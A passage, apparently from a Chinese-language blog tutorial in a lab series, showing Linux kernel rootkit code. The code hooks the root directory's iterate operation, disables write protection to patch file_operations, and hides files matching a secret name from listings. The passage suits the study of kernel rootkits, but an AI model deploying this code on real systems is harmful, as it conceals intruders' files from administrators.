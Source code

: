 int fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
        // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
        printk("Hiding: %s", name);
        return 0;
    }
    // 如果不是需要隐藏的文件，
    // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
{% endhighlight %}

接着是一个宏，用来替换某个目录下的`iterate`

{% highlight c %}
#define set_f_op(op, path, new, old)    \
    do{                                 \
        struct file *filp;              \
        struct file_operations *f_op;   \
        printk("Opening the path: %s.\n", path);    \
        filp = filp_open(path, O_RDONLY, 0);        \
        if(IS_ERR(filp)){                           \
            printk("Failed to open %s with error %ld.\n",   \
                path, PTR_ERR(filp));                       \
            old = NULL;                                     \
        }                                                   \
        else{                                               \
            printk("Succeeded in opening: %s.\n", path);    \
            f_op = (struct file_operations *)filp->f_op;    \
            old = f_op->op;                                 \
            printk("Changing iterate from %p to %p.\n",     \
                    old, new);                              \
            disable_write_protection();                     \
            f_op->op = new;                                 \
            enable_write_protection();                      \
        }                                                   \
    }while(0)
{% endhighlight %}

开关写保护的函数请参考`0001`实验。最后是入口出口函数中添加的内容：

{% highlight c %}
#define ROOT_PATH "/"
// in init
set_f_op(iterate, ROOT_PATH, fake_iterate, real_iterate);

if(!real_iterate){
    return -ENOENT;
}
// in exit
if(real_iterate){
    void *dummy;
    set_f_op(iterate, ROOT_PATH, real_iterate, dummy);
}
{% endhighlight %}
